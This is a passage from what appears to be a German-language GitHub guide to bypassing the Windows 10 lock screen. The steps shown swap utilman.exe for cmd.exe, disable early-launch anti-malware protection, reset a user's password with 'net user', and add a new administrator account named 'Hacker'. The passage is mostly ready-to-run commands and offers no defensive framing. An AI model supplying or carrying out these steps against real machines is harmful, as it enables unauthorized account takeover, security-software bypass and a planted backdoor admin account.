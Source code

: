 								cd Windows\System32
							
								rename utilman.exe utilman.exe.lol

								copy cmd.exe utilman.exe


- a) Komandozeile (cmd) mit `$ exit` oder dem Kreuz oben rechts in der Ecke schließen.

- b) Installation beenden (abbrechen)

- c) Der PC wird neu gestartet, dabei den USB Stick entfernen, damit der Sperrbildschirm erscheint.


-----------------------------------------------------------------------------


3. Schutz vor Antischadsoftware-Frühstarts deaktivieren

- In die automatischen Reparatureinstellungen von win 10 kommen: `Shift Taste und Neustart-Knopf unten rechts auf dem Sperbildschirm gleichzeitig drücken.`

- Zuerst zu `Problembehandlung` dann zu `erweiterten Optionen` und `Starteinstellungen` auswählen.

- Anschließend auf `Neu starten` klicken.

- `Option 8` auswählen (Schutz des Antischadsoftware-Frühstarts deaktivieren)

- Unten rechts auf die erleichterte Bedienung klicken und es sollte sich die Kommandozeile öffnen.


-----------------------------------------------------------------------------


4. Passwort ändern

- Um das Passwort nun in CMD auf dem Sperrbildschirm zu ändern:
```
$ net user "(hier kommt der name des Benutzers rein und die Anführungszeichen nicht vergessen)" *
```
- (Beispiel: `$ net user "User" *` )


- Nun das neue Passwort eingeben !


-----------------------------------------------------------------------------


5.  Einen neuen Benutzer anlegen

```
$ net user DEN BENUTZERNAMEN HIER REIN SCHREIBEN HIER PASSWORT SCHREIBEN /add    
```
- (Beispiel: `$ net user Hacker 1234 /add`)


Den hinzugefügten Nutzer zum Admin machen:
```
$ net localgroup administrators HIER DER BENUTZERNAME /add
```
- (Beispiel: `$ net localgroup administrators Hacker /add`)


-----------------------------------------------------------------------------
